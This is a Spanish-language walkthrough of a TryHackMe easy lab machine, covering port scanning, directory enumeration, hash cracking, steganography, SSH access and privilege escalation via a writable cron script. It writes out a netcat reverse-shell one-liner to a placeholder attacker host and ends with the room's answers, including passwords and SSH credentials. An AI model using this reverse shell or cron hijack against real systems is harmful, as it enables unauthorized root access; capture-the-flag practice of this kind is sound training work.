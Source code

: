 Bienvenidos a otra sala de TryHackMe. En esta ocasion, les traemos una maquina de dificultad facil, en la cual escanearemos los puertos abiertos, enumeraremos posibles directorios ocultos, tambien haremos uso de **john** para crackear contraseñas y realizaremos la practica de **steghide** para descubrir mensajes secretos a traves de imagenes. Luego, accederemos al sistema via #ssh y escalaremos privilegios mediante uso de #crontabs para acceder como sistema raiz. 

# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.22s latency).
Scanned at 2023-05-02 00:47:42 EDT for 29s
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE REASON         VERSION
80/tcp    open  http    syn-ack ttl 63 nginx 1.16.1
6498/tcp  open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
65524/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.43 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Enumeration

Para iniciar el proceso de enumeracion utilizamos la herramienta **gobuster** para descubirr directorios ocultos y posibles . Ejecutaremos el siguiente comando : `gobuster dir http://IPTARGET -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt`
Obtendremos los siguientes directorios :
```ruby
/hidden               (Status: 301) [Size: 169] [--> http://IPTARGET/hidden/]
/index.html           (Status: 200) [Size: 612]
/robots.txt           (Status: 200) [Size: 43]
```

Nos dirigimos al directorio /hidden, pero no encotraremos nada que nos llame la atencion.. lo mismo con /robots.txt. En estas ocasiones, tendremos que ejecutar otro gobuster, pero agregando el directorio /hidden, para ver si hay alguna ruta que nos interese. `gobuster dir http://IPTARGET/hidden -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt`
```ruby
/index.html           (Status: 200) [Size: 390]
/whatever             (Status: 301) [Size: 169] [--> http://IPTARGET/hidden/whatever/]
```

Navegamos al directorio y  al observar con page-source, encontraremos nuestra primer flag que decodificaremos con base64 `echo "flag" | base64 -d`

Para encontrar la segunda flag, haremos uso nuevamente de **gobuster**, pero esta vez, enumeraremos el puerto abierto que nos listo nuestro escaneo de nmap (65524). `gobuster dir -u http://IPTARGET:65524 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt `
```ruby
/.hta                 (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 10818]
/robots.txt           (Status: 200) [Size: 153]
/server-status        (Status: 403) [Size: 280]
```

Tendremos otro directorio /robots.txt que esta vez habra un mensaje en el. Parece un tipo de hash, utilizaremos **hashid** para identificar el tipo de hash. Una vez identificado el hash, lo crackearemos mediante una herramienta online . En mi caso, utilize https://md5hashing.net/,  ya que fue la unica que me pudo descrifrar el contenido.

Por ultimo, navegaremos dentro del puerto 65524 e inspeccionamos el Page-Source. SI observamos con detenimiento, habra un mensaje codificado. Utilizaremos **cyberchef** para decoficarlo en base62. Obtendremos un directorio secreto !

# John

Al navegar al directorio que descubrimos anteriormente, nos encontraremos con un fondo de codigo binario. SI mantemos el cursor apretado y lo movemos, podremos observar que hay letras escondidas que pasan desapercibidas.  Al encontrar el hash secreto, utilizamos nuestra herramienta **john** para crackear que oculta este hash, pero primero lo tendremos que identifiar usando **hash-identifier**. Una vez que sabemos que tipo de hash utiliza, ejecutaremos john : `john --wordlist=easypeasy.txt --format=gost flag3.txt`
La wordlists la obtenemos descargandola en la sala de tryhackme. Obtenemos una contraseña, pero no podremos utilizarla en **ssh**.

# Steghide

Dentro del directorio, donde encontramos el hash y, ademas del fondo, hay una imagen en que tiene como foto codigo binario, de la cual podremos descargar. Una vez descargada, utilizaremos **steghide** para descubrir posibles archivos mediante imagenes. `steghide extract -sf IMG`, nos pedira una contraseña y es la que descubrimos con ayuda de **john**. 
Nos mostrara un archivo .txt donde se almacen las credenciales del sistema en las que podremos acceder via #ssh 

## SSH

Para conectarnos via ssh, en esta ocasion tendremos que especificar el puerto donde querramos conectarnos. `ssh boring@IPTARGET -p 65524`. Una vez dentro, encontraremos la flag distorsionada, por lo que tendremos que decodificarla usando **rot13** en cyberchef para que sea legible.

# Priv. Escalation

Para escalar priviegios, listaremos las tareas cron : `cat /etc/crontab && ls -lah`
Luego, tendremos que suplantarlo con nuestra reverse shell, asi podremos acceder al sistema raiz en la terminal de nuestra maquina atacante. 
`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc LHOST 4444 >/tmp/f" > .mysecretcronjob.sh`

Antes de ejecutarlo, en nuestra terminal nos pondremos en escucha ejecutando : `nc -nvlp 4444`. Ahora si, ejecutaremos **mysecretcronjob.sh** y obtendremos nuestra shell privilegiada "root".

# Respuetas 

#enum = /hidden
>/hidden/whatever ---> flag1 ---> base64 decode
> /robots.txt port 65524 ----> flag2 ---> https://md5hashing.net/hash/md5/
> page-source 65524 ----> flag3 ----> ObsJmP173N2X6dOrAgEAL0Vu (from base62) -----> Hidden directory "/n0th1ng3ls3m4tt3r" 

#john = mypasswordforthatjob
#ssh = boring:iconvertedmypasswordtobinary